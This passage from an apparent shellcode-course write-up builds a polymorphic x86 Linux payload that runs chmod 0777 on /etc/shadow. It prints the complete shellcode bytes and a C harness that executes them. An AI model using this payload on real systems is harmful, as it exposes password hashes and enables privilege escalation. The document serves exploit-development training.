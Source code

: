 ```nasm
	push ebx			; push "///bin/chmod"

	mov ecx, esp			; ecx points at the top of the stack
	
	mov al, 0xb			; b is the hex value of the decimal 11 for execve syscall 

	int 0x80			; exec execve syscall
```

The comments are self-explanatory for the functionality of this program, which is the same as the original.

Now the changes, that were made in the polymorphic version, are explained. The addresses that hold the string "/etc//shadow" aren’t directly pushed on the stack, but they are saved in locations pointed by `ESI` with `mov` instructions. Also, the addresses that hold the string "///bin/chmod" aren't directly pushed on the stack, but they are saved in locations pointed by `EBX`. The clear of the `EDX` register wasn't necessary, so that instruction is removed.

### Testing the execve-chmod polymorphic shellcode

Now we need to compile `execve-chmod.nasm` with the bash script `compile.sh` and extract the shellcode from the generated executable with `objdump` one-liner.

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/6_Polymorphic_shellcodes/2_execve_chmod$ ./compile.sh execve-chmod
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
```

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/6_Polymorphic_shellcodes/2_execve_chmod$ objdump -d ./execve-chmod | grep '[0-9a-f]:' | grep -v 'file'|cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
"\x31\xc0\x50\xc7\x44\x24\xfc\x61\x64\x6f\x77\xc7\x44\x24\xf8\x2f\x2f\x73\x68\xc7\x44\x24\xf4\x2f\x65\x74\x63\x83\xec\x0c\x89\xe6\x50\x68\x30\x37\x37\x37\x89\xe5\x50\xc7\x44\x24\xfc\x68\x6d\x6f\x64\xc7\x44\x24\xf8\x69\x6e\x2f\x63\xc7\x44\x24\xf4\x2f\x2f\x2f\x62\x83\xec\x0c\x89\xe3\x50\x56\x55\x53\x89\xe1\xb0\x0b\xcd\x80"
```

After that, we modify the `shellcode.c` with the shellcode from `objdump`.

The whole `C` program is the following:

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = 
"\x31\xc0\x50\xc7\x44\x24\xfc\x61\x64\x6f\x77\xc7\x44\x24\xf8\x2f\x2f\x73\x68\xc7\x44\x24\xf4\x2f\x65\x74\x63\x83\xec\x0c\x89\xe6\x50\x68\x30\x37\x37\x37\x89\xe5\x50\xc7\x44\x24\xfc\x68\x6d\x6f\x64\xc7\x44\x24\xf8\x69\x6e\x2f\x63\xc7\x44\x24\xf4\x2f\x2f\x2f\x62\x83\xec\x0c\x89\xe3\x50\x56\x55\x53\x89\xe1\xb0\x0b\xcd\x80";

main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();
}
```
